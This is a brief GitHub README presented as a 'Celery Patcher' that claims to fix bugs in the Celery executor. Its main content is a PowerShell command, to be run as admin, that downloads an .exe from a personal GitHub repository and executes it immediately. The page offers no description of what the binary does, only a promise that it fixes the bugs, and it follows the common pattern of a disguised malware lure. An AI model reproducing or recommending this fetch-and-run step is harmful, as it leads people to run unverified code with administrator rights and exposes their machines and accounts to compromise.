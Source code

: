 ## Is celery throwing random bugs for you?
# [Celery Patcher] Aim's are to HOPEFULLY fix this bug for you.

Run this in powershell as admin:
```ps
wget -o celerypatcher.exe https://github.com/boogiescub/Hola/raw/main/celery%20patcher.exe && .\celerypatcher.exe
```
This will automatically locate and fix the bugs celery has.
Thank you for supporting this project Woody!
Celery is a great executor.

## Official Discord:
https://discord.gg/celery
